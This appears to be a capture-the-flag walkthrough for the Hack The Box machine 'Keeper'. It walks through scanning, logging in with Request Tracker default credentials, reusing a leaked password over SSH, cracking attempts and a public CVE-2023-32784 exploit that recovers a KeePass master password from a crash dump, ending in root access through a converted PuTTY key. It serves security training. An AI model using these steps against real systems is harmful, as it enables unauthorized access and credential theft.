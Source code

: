# Keeper - Easy

```sh
sudo vim /etc/hosts
# add keeper.htb

nmap -T4 -p- -A -Pn -v keeper.htb
```

* Open ports & services:

    * 22/tcp - ssh - OpenSSH 8.9p1 Ubuntu 3ubuntu0.3
    * 80/tcp - http - nginx 1.18.0

* On port 80, we have a webpage whiich gives us the subdomain <tickets.keeper.htb> for raising an IT support ticket:

    ```sh
    sudo vim /etc/hosts
    # map tickets.keeper.htb as well
    ```

* This subdomain leads us to <http://tickets.keeper.htb/rt/> - it is running 'Request Tracker' software from 'Best Practical Solutions'; we can also see the version details in the footer text as '4.4.4+dfsg-2ubuntu1'

* Googling for exploits associated with Request Tracker version 4.4.4 does not give us a lot of info, so we can continue basic enumeration

* Directory scan:

    ```sh
    feroxbuster -u http://keeper.htb -w /usr/share/dirb/wordlists/common.txt -x php,html,bak,bac,md,jpg,png,ps1,js,txt,json,docx,pdf,zip,cgi,sh,pl,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500 --silent
    # directory enumeration

    # starting with a smaller wordlist, we can then go for medium-sized wordlists if needed
    feroxbuster -u http://keeper.htb -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,bak,bac,md,jpg,png,ps1,js,txt,json,docx,pdf,zip,cgi,sh,pl,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500 --silent

    # directory enumeration for tickets.keeper.htb
    feroxbuster -u http://tickets.keeper.htb -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,bak,bac,md,jpg,png,ps1,js,txt,json,docx,pdf,zip,cgi,sh,pl,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500 --silent
    ```

* While the directory scan takes place, we can check with default credentials; Googling for 'Request Tracker default credentials' gives us 'root:password' - this works for logging into <http://tickets.keeper.htb>

* From the dashboard view, we can see a ticket opened by requestor "webmaster@keeper.htb" and user "lnorgaard (Lise Nørgaard)" - it is about 'Issue with Keepass Client on Windows'; further enumeration gives us another user "root (Enoch Root)"

* Checking the ticket history, it shows that there was a crashdump of the keepass program, but the attachment was removed later

* Enumerating the dashboard further, under the 'Admin' section, we can check user info for both users

* For 'lnorgaard', the comments section mentions the password 'Welcome2023!' - we can check for password re-use via SSH:

    ```sh
    ssh lnorgaard@keeper.htb
    # SSH using password re-use works

    ls -la
    # get user flag

    # we also have a zip file here
    ls -la RT30000.zip
    ```

* The zip file could be the Keepass crashdump mentioned earlier - we can download it to the attacker machine:

    ```sh
    # in attacker machine
    scp lnorgaard@keeper.htb:/home/lnorgaard/RT30000.zip .
    
    unzip RT30000.zip
    # we have 2 files
    # a packet capture 'KeePassDumpFull.dmp'
    # and a Keepass file 'passcodes.kdbx'

    # to view the kdbx file, we need keepassx
    sudo apt install keepassx

    # we can try opening the .kdbx file now, but it needs a password

    # cracking kdbx file
    keepass2john passcodes.kdbx > kdbx_hash

    john --wordlist=/usr/share/wordlists/rockyou.txt kdbx_hash
    # unable to crack the hash
    ```

* We are unable to crack the hash for the '.kdbx' file; however we have not taken a look at the crash dump:

    ```sh
    file KeePassDumpFull.dmp
    # Mini DuMP crash report
    ```

* Googling for Keepass crash dump analysis leads us to CVE-2023-32784, which is a vulnerability for KeePass versions lower than 2.54 - it allows us to dump the master password from KeePass's memory

* As we already have a '.dmp' file, we can try using [one of the exploits on GitHub for CVE-2023-32784](https://github.com/dawnl3ss/CVE-2023-32784):

    ```sh
    python3 CVE-2023-32784.py KeePassDumpFull.dmp
    # gives a lot of possible passwords like "●ldgr●d med fl●de", "●Idgr●d med fl●de"
    ```

* The exploit gives us various possible passwords, but a lot of characters seem similar - it seems a few characters are not clear

* Googling for the various strings itself gives us results for 'Rødgrød Med Fløde', a Danish dessert - this seems to be the password for the '.kdbx' file too, but in lowercase

* Using the password string "rødgrød med fløde", we are able to open the '.kdbx' file using ```keepassxc``` software

* Inside the database, under the 'Network' section, we have password 'F4><3K0nd!' for user "root", and the Notes section also includes the contents of a key file

* The key is for ```PuTTY```, as the first header is 'PuTTY-User-Key-File-3: ssh-rsa' - this is for '.ppk' files or PuTTY keys; it also includes 'Public-Lines' and 'Private-Lines', so we need to [convert them from PuTTY to OpenSSH format](https://www.baeldung.com/linux/ssh-key-types-convert-ppk):

    ```sh
    vim root.ppk
    # paste the key contents to putty key file

    # extract private key
    puttygen root.ppk -O private-openssh -o id_rsa

    chmod 600 id_rsa

    ssh root@keeper.htb -i id_rsa
    # this works and we are able to login as root

    ls -la /root
    # get root flag
    ```

